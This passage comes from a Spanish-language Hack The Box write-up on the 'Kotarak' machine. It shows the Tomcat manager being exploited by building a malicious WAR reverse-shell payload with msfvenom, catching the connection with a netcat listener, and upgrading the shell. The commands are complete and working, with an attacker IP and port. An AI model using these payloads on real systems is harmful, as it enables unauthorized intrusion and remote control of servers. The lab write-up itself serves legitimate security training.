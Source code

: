 <img src="/assets/HTB/Kotarak/manager.png">

### Explotación Tomcat

* * *

Como ya hemos realizado en otras máquinas con tomcat crearemos un archivo `war` malicioso y lo subiremos para poder otorgarnos una reverse shell y así ganar acceso a la máquina

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.38 LPORT=443 -f war -o shell.war
Payload size: 1088 bytes
Final size of war file: 1088 bytes
Saved as: shell.war
```

<img src="/assets/HTB/Kotarak/war.png">

Nos ponemos en escucha en el puerto 443 y ejecutamos el archivo malicioso

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.38] from (UNKNOWN) [10.10.10.55] 57020
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

No tenemos una shell plenamente funcinal por lo que vamos a hacer un tratamiento de la shell

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 54 columns 208
```
